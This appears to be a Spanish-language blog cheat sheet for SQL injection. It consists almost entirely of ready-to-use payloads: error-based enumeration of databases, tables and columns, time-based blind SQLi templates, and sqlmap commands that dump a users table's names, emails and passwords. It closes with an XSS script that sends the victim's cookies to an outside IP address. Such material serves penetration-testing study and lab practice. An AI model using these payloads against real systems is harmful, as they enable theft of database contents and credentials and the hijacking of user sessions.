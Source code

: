 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
current_user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blind SQL

### Base de Datos

```
' or IF(SUBSTR(database(),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<position>,<chars>.encode("utf-8").hex())
```

### Tablas

```
1' AND IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=<database> limit 0,1),<start>,1)='<char>'#
```

### Columnas

```
' or IF(SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_name='%s' AND table_schema='%s' LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<table>,<databse>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Registros

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<databse>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

----

#### Todos los usuarios de MySQL

```
SELECT user FROM mysql.user;
```

## SqlMap

| argumento      | descripción                                   |
|----------------|-----------------------------------------------|
| --url          | url                                           |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel                                         |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos                             |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos                     |
| --tables       | mostrar las tablas de la DDBB seleccionada    |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla               |
| --os-shell     | obtenre shell                                 |


```
sqlmap -u "http://192.168.116.135/?nid=1" --batch
```

Obtener registros

```
qlmap -u "http://192.168.116.135/?nid=1" --batch -D d7db -T users -C name,mail,pass --dump
```


## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```
